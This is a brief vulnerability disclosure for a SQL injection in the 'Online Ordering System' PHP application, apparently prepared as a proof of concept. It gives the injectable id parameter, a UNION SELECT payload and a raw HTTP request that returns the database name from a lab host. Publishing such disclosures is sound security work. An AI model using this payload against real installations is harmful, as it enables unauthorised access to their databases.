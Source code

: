 # Online Ordering System By janobe has SQL injection vulnerability

Author： Wang Chen Jun

vendor: https://www.sourcecodester.com/php/12978/online-ordering-system-phpmysqli.html

Vulnerability file: /ordering/admin/store/index.php?view=edit&id=

Vulnerability location: /ordering/admin/store/index.php?view=edit&id= //id is Injection point

[+]Payload: /ordering/admin/store/index.php?view=edit&id=-9%27%20union%20select%201,database(),3,4,5,6,7--+ //id is Injection point

Current database name: multistoredb

```sql
GET /ordering/admin/store/index.php?view=edit&id=-9%27%20union%20select%201,database(),3,4,5,6,7--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=0m2td1md252hlnr3nsbmc5ss99
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/168947045-ba6afccb-90d5-4dc5-9317-dac4d60d58b4.png)

![image](https://user-images.githubusercontent.com/54017627/168947496-464dd6db-4260-4d44-84fe-1ffd33a35c1a.png)
